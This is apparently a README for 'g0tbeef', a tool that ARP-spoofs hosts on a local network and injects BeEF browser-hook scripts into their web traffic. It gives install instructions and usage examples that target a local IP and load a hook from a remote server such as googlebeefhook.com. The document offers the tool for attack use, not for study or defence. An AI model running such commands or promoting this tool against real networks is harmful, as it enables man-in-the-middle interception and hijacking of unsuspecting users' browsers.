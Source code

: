 g0tbeef
==========

Arp Spoof and inject beef hook in seconds

Installation:
=======

Run 'make install' in the g0tbeef directory. g0tbeef can now be run from anywhere with 'g0tbeef'.

Usage:
=======
	g0tbeef - Inject Beef hooks into html responses
		
	Usage - g0tbeef <options>
			-t <ip> 	~  ip extension to target
			-r <ip> 	~  full ip of remote beef server
			-p <port>	~  port of remote beef server

	Examples
			g0tbeef -t 2								
			  ~  Attack xx.xx.xx.2
			g0tbeef -r googlebeefhook.com -p 80	
			  ~  Use beef hook at http://googlebeefhook.com:80/hook.js

